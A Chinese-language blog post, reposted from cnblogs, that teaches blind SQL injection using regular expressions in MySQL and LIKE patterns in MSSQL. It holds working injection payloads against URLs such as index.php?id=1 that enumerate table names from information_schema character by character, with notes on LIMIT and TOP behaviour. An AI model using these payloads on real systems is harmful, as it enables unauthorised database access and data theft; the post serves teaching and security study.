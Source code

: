 ```yaml
---
layout: post
title:  "SQL盲注之正则表达式攻击"
date:   2018-11-23 20:15:33 +0700
categories: [Web安全, SQL注入]
---
```




#  [转载\]sql 盲注之正则表达式攻击](https://www.cnblogs.com/lcamry/articles/5717442.html)



-----------------------------------------MYSQL 5+-----------------------------------------

我们都已经知道，在MYSQL 5+中 information_schema库中存储了所有的 库名，表明以及字段名信息。故攻击方式如下：

\1. 判断第一个表名的第一个字符是否是a-z中的字符,其中blind_sqli是假设已知的库名。

注：正则表达式中 ^[a-z] 表示字符串中开始字符是在 a-z范围内

index.php?id=1 and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^[a-z]' LIMIT 0,1) /*

\2. 判断第一个字符是否是a-n中的字符

index.php?id=1 and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^[a-n]' LIMIT 0,1)/*

\3. 确定该字符为n

index.php?id=1 and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^n' LIMIT 0,1) /*

\4. 表达式的更换如下

expression like this: '^n[a-z]' -> '^ne[a-z]' -> '^new[a-z]' -> '^news[a-z]' -> FALSE

这时说明表名为news ，要验证是否是该表明 正则表达式为'^news$'，但是没这必要 直接判断 table_name = ’news‘ 不就行了。

5.接下来猜解其它表了 **（只需要修改 limit 1,1 -> limit 2,1就可以对接下来的表进行盲注了）这里是错误的！！！**

regexp匹配的时候会在所有的项都进行匹配。例如：

security数据库的表有多个，users，email等

select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^u[a-z]' limit 0,1);是正确的

select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^us[a-z]' limit 0,1);是正确的

select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^em[a-z]' limit 0,1);是正确的

select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^us[a-z]' limit 1,1);不正确

select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^em[a-z]' limit 1,1);不正确

实验表明：在limit 0,1下，regexp会匹配所有的项。我们在使用regexp时，要注意有可能有多个项，同时要一个个字符去爆破。类似于上述第一条和第二条。而此时limit 0,1此时是对于where table_schema='security' limit 0,1。table_schema='security'已经起到了限定作用了，limit有没有已经不重要了。

 

-----------------------------------------------MSSQL---------------------------------------------------

MSSQL所用的正则表达式并不是标准正则表达式 ，该表达式使用 like关键词

default.asp?id=1 AND 1=(SELECT TOP 1 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" and table_name LIKE '[a-z]%' )

该查询语句中，select top 1 是一个组合哦，不要看错了。

如果要查询其它的表名，由于不能像mysql哪样用limit x,1，只能使用 table_name not in (select top x table_name from information_schema.tables) 意义是：表名没有在前x行里，其实查询的就是第x+1行。

例如 查询第二行的表名：

default.asp?id=1 AND 1=(SELECT TOP 1 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" and table_name NOT IN ( SELECT TOP 1 table_name FROM information_schema.tables) and table_name LIKE '[a-z]%' )

表达式的顺序：

'n[a-z]%' -> 'ne[a-z]%' -> 'new[a-z]%' -> 'news[a-z]%' -> TRUE

之所以表达式 news[a-z]查询后返回正确是应为%代表0-n个字符，使用"_"则只能代表一个字符。故确认后续是否还有字符克用如下表达式

'news%' TRUE -> 'news_' FALSE

同理可以用相同的方法获取字段，值。这里就不再详细描述了。